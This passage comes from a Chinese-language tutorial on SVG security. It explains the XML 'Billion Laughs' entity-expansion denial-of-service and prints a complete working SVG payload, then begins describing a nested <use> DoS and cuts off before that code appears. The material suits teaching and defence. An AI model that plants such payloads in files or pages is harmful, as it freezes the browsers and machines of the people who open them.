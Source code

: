 在这种情况下，我们可以发起类似钓鱼、绕开同源策略、CSRF 之类的攻击。

如果在 Chrome 上通过 `<img />` 标签引入，并不会渲染 `<a>` 标签，可能是 Chrome 做的防护，但是单独打开是会触发的

### <a name="chapter-four-three" id="chapter-four-three"></a>4.3 XML 实体导致的 Billion Laughs 攻击

> [返回目录](#chapter-one)

`a billion laughs attack` 是一种 `denial-of-service`（DoS）攻击，它主要作用于 XML 文档解析器。

它也被称为指数实体扩展攻击，是一种名副其实的 XML 炸弹。

在 SVG 中，可以通过 `Entity` 声明实体功能：

> 03-billion-laughs.svg

```xml
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<!ENTITY lol10 "&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;">
<!ENTITY lol11 "&lol10;&lol10;&lol10;&lol10;&lol10;&lol10;&lol10;&lol10;&lol10;">
<!ENTITY lol12 "&lol11;&lol11;&lol11;&lol11;&lol11;&lol11;&lol11;&lol11;&lol11;">
<!ENTITY lol13 "&lol12;&lol12;&lol12;&lol12;&lol12;&lol12;&lol12;&lol12;&lol12;">
<!ENTITY lol14 "&lol13;&lol13;&lol13;&lol13;&lol13;&lol13;&lol13;&lol13;&lol13;">
<!ENTITY lol15 "&lol14;&lol14;&lol14;&lol14;&lol14;&lol14;&lol14;&lol14;&lol14;">
]>
<svg xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="20" font-size="20">
    <lolz>&lol15;</lolz>
  </text>
</svg>
```

浏览器打开这个文件后，CPU 直接干上 100%，所以如非必要，不要打开它。

### <a name="chapter-four-four" id="chapter-four-four"></a>4.4 Dos（拒绝服务）：新型 SVG Billion Laughs 攻击

> [返回目录](#chapter-one)

除了 `Entity`，还有一种方式，就是通过 SVG 图像发起攻击。

其中 `xlink:href` 属性以 IRI（国际资源标识）方式定义了对某个资源的引用，该链接的具体含义需根据使用该链接的每个元素的上下文来决定。

`<use>` 元素从 SVG 文档中获取节点，然后将其复制到其他位置。

在下面代码中，我们实现了反复嵌套使用，直至浏览器或者电脑卡死。
